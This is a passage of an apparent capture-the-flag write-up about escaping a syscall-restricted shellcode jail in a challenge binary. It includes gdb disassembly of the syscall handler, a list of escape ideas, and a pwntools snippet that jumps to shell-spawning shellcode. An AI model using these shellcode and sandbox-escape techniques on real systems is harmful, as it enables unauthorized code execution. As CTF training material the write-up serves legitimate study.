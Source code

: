 ```assembly
   0x0000013371337051:  xor    rax,rax
   0x0000013371337054:  inc    QWORD PTR [rax]
```


So that jump is going to take us to the address that we just pushed on the top of the stack, which is 0x55555555725b

```assembly
gef➤  disass 0x55555555725b,+128
Dump of assembler code from 0x55555555725b to 0x5555555572db:
   0x000055555555725b <to_runtime_syscall+0>:   push   rsp
   0x000055555555725c <to_runtime_syscall+1>:   pushf  
   0x000055555555725d <to_runtime_syscall+2>:   push   r15
   0x000055555555725f <to_runtime_syscall+4>:   push   r14
   0x0000555555557261 <to_runtime_syscall+6>:   push   r13
   0x0000555555557263 <to_runtime_syscall+8>:   push   r12
   0x0000555555557265 <to_runtime_syscall+10>:  push   r11
   ...
```

So we jump to some code that is supposed to handle syscalls. We'll look at this in more detail when we look to solve `piss_2`. But maybe it'd be useful to review what we saw:

- It takes our input, decodes it and puts it in 0x13371337000
- The instructions are the same, up until syscalls (and maybe other things, we'll try jumps in a moment)


Escape ideas
-----

Without the ability to open any files, the `write` syscall isn't going to be enough to print the flag. We need unrestricted code execution so we can run whatever syscalls we want -- ideally we'd just pop a shell (Did I say `rev`? It's really `revpwn`.)

Some ideas for how we might get around the syscall jail:

1. Jumps? What happens if we just jump to a syscall somewhere else that hasn't been overwritten?
2. Can we write to anywhere in memory? Can we corrupt anything interesting that gets used outside of the jail?
3. ...? idk, don't really have any more ideas.. yet.



Let's consider these in order.

### Idea 1: Jumps

The simplest example you could imagine might just take the shellcode, move it down to 0x13371337200, at the 0x13371337000 place a jump to 0x13371337200

```py
code = """
jmp L1

.align 0x200
L1:
%s
""" % (shellcraft.amd64.linux.sh(),)

```
(see demo2.py)
